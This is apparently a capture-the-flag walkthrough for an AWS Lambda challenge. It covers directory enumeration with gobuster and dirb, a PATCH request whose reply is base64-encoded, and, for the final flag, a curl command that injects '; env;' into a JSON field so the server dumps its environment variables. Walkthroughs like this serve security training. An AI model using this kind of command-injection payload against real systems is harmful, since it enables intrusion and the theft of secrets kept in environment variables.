










## A3 - Lambda Challenge

### Flag 1
**Main goal:** Perform directory enumeration and find /api/version or /version paths

**Expected skills:** 
- Execute Web Application enumeration
- identify and decode hexadecimal

1. First step is to use an enumeration tool (gobuster, dirbuster, burp suit or other) with a dictionary of common paths, in the example bellow I used gobuster with a common dictionary on kali
   
    `gobuster dir -u https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 10`

   

Other option could be dirb tool:

`dirb https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/`

   


2. After accessing the found url, it is possible to see a message em hexadecimal

   


3. Use a hex converter to get flag 1

   

---

### Flag 2
**Main goal:** Access the documentation endpoint at /api/lkasjdlksjdflkj
**Expected skills:**
- Use tools to perform http requests (curl, burp suite, postman)
- have knowledge of the different methods for http requests

1. To resolve this challenge, it is necessary to send an HTTP request with method PATCH to the documentation endpoint
   
   - Using postman
     
   - Using curl
     
     
2. As the response is base64 encoded, it is necessary to decode it to get the flag, as shown below:
   
   

   

---

### Flag 3
**Main goal:** Exploit cmd injection vulnerability and get the flag in lambda environment
**Expected skills:**
- Use tools to perform http requests (curl, burp suite, postman)
- Explore cmd injection vulnerabilities
- Retrieve data from environment variables in lambda instances

1. There are two hidden api paths in the documentation, interacting with both it is possible to find a command execution on /api/oratoroeuaroupadoreideroma/status. In order to get the final flag, it is necessary to send a malicious POST request with command injection and read the environment variables, as demonstrated below:
   
   

   - Using curl
   ```shell
   curl --location --request POST 'https://5xjz0o4hak.execute-api.sa-east-1.amazonaws.com/api/oratoroeuaroupadoreideroma/status' --header 'Content-Type: text/plain' --data-raw '{"ip": "192.168.15.1; env;"}' --silent | egrep -i flag
   ```
   

 


 